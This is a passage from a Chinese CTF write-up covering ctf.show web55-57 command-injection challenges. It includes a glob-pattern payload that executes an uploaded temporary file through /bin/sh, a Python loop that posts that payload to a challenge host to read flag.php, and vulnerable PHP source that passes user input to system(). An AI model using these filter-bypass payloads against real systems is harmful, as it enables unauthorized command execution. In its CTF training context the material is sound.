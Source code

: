 ```
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>

```

构造POC
**注：shell程序必须以"#!/bin/sh"开始，#! /bin/sh 是指此脚本使用/bin/sh来解释执行，#!是特殊的表示符，其后面跟的是解释此脚本的shell的路径**

![在这里插入图片描述](https://img-blog.csdnimg.cn/62340463ed224d4a9b05d03d80da2c72.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5LiAYXVl,size_20,color_FFFFFF,t_70,g_se,x_16)

```
?c=./???/????????[@-[]
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/28f9e75bfe0947e882d8e719947447b0.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5LiAYXVl,size_20,color_FFFFFF,t_70,g_se,x_16)



payload 4

运行下面脚本

```
import requests

while True:
    url = "http://a88c904d-6cd4-4eba-b7e9-4c37e0cf3a7d.chall.ctf.show/?c=.+/???/????????[@-[]"
    r = requests.post(url, files={"file": ('feng.txt', b'cat flag.php')})
    if r.text.find("flag") > 0:
        print(r.text)
        break

```



### web 56

因为过滤掉了数字，所以web55前两个方法都不行了。

还是用上传文件的方法

### web57

```
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}
```
